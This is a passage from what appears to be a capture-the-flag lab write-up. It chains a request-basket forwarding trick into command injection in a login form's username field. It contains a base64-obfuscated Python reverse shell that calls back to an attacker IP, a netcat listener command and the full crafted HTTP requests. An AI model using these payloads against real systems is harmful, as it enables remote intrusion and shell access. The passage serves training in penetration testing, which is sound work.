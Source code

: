 Then using this B64 string our payload will look like this:

```bash
echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjY3Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw== | base64 --decode | bash
```

Next setup your listener so that whenever we run this command we are ready to catch the reverse shell.

```
nc -lvp 443
```

So now that we have our payload ready we need to create a new request basket to be able to acess the login page.

```
POST /api/baskets/Calico1 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: null
X-Requested-With: XMLHttpRequest
Origin: http://10.10.11.224:55555
Connection: close
Referer: http://10.10.11.224:55555/web
Content-Length: 127

{"forward_url": "http://127.0.0.1:8338/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 250}
```

The server then issued the following valid response showing our basket was reachable from **Calico1**

```
HTTP/1.1 201 Created
Content-Type: application/json; charset=UTF-8
Date: Sat, 16 Dec 2023 19:49:58 GMT
Content-Length: 56
Connection: close

{"token":"vI4VZ0e8EtrKnQ-pkV7K8AmRZoTloxcQDdhS58NN5ixf"}
```

So now we have all the pieces we need we can exploit this service using the following request.

```
POST /Calico1 HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 326

username=;`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjY3Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw== | base64 -d |sh`
```
